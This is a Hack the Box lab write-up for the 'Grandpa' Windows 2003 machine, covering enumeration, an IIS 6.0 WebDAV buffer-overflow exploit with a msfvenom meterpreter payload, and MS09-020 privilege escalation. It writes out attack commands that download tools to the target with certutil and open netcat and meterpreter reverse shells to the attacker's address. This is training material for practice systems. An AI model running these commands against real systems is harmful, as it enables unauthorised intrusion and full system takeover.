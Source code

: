 ```yaml
---
title: Grandpa
tags: windows
description: Write-up for Hack the Box - Grandpa
---
```


![image](assets/79370442-a872d380-7f20-11ea-9bee-96540fa480e8.png)

## Overview

Granpda is a Windows 2003 box running IIS 6.0 with webdav enabled. IIS was vulerable to the ScStoragePathFromUrl Remote Buffer Overflow. I used an NSA exploit that was leaked by the Shadow Brokers called ExplodingCan to get intial foothold. From there I used the windows exploit suggester tool and determined that the box was vulnerable to MS09-020 which allowed me to set up a meterpreter reverse shell and get a callback as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* IIS 6.0
* ASP.NET 1.1.4322

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/grandpa/_full_tcp_nmap.txt
```

* 80/tcp

![image](assets/81748967-c6c4e400-9478-11ea-9483-32cc75edc2f1.png)

**Nikto Scan**
```
nikto -h 10.10.10.14
```
![image](assets/81599563-a1f84000-9396-11ea-845d-99a96104b8ab.png)

**Davtest**

```
davtest -url http://10.10.10.14
```

![image](assets/81748823-7cdbfe00-9478-11ea-838d-2c8d9d679566.png)


## Steps (user)

Browsing to http://10.10.10.14 shows the default "Under Contruction" page. I ran a Nikto which showed some potential vulnerabilities but none of them applied. Gobuster also did not turn up anything useful. 

According to the nmap scan this server was running webdav so I ran a scan with a [davtest](https://tools.kali.org/web-applications/davtest) which is a tool that tests uploading different executable file types. All the tests failed so I moved on.

> Web Distributed Authoring and Versioning ([WebDAV](https://en.wikipedia.org/wiki/WebDAV)) is an extension to the HTTP protocol that allows creating, moving, copying, and deleting files/resources on remote web servers.

Internet Information Services 6.0 was released with Windows Server 2003 and is really old at this point. I ran a search in searchsploit for IIS 6.0 and there were a few results. 

![image](assets/81601942-bc7fe880-9399-11ea-965b-039513823121.png)

I didn't have any luck with "WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow" (41738.py). I swapped out the shellcode in the script for my own and I got a shell but it immediately died. I did an internet search for other exploits that might exist for this vulnerability and I came across explodingcan.

> https://github.com/danigargu/explodingcan

I generated a staged meterpreter payload with msfvenom because the unstaged payload without meterpreter was calling back but immediately dropping the connection (like 41738.py).

I generated a payload with MSFVenom and output a file
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.22 lport=4200 -f raw -e x86/alpha_mixed > shellcode
```

I fired up metasploit and set up a meterpreter listener
```
msfdb run
set exploit/multi/handler
set payload 
set lhost 10.10.14.22
set lport 4200
set payload windows/meterpreter/reverse_tcp
run
```

From my box I ran the exploitcan script specifying the target IP and the name of the file that I saved the shellcode to.

```
explodingcan.py http://10.10.10.14 shellcode
```

I received a callback and shell as 'nt authority\network service'

![image](assets/81610251-37033500-93a7-11ea-92f0-a0644f249bfd.png)

## Steps (root/system)

I used Windows Exploit Suggester to look for kernel exploits to escalate privileges. This tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

I ran the systeminfo command on the target system, copied the output to sysinfo.txt, and fed it into wes.py
```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81613484-9152c480-93ac-11ea-9cfe-fac6185a8b23.png)

This box appeared to be vulnerable to MS09-020 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip. 

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I downloaded a copy of the exploit and netcat into my working directory, and started up a python http server.

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip
unzip MS09-020-KB970483-CVE-2009-1535-IIS6.zip
cd MS09-020-KB970483-CVE-2009-1535-IIS6
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

On the target I used certutil to download netcat and the exploit to the box

```
cd c:\windows\temp
certutil -urlcache -split -f http://10.10.14.22/IIS6.0.exe
certutil -urlcache -split -f http://10.10.14.22/nc.exe
```

I then set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit on the target box specifying netcat and the host and IP address of my box.

```
iis6.exe "nc -e cmd 10.10.14.22 4201"
```

I received shell as 'nt authority\system'

![image](assets/81615769-23100100-93b0-11ea-94a2-61504684d8e2.png)
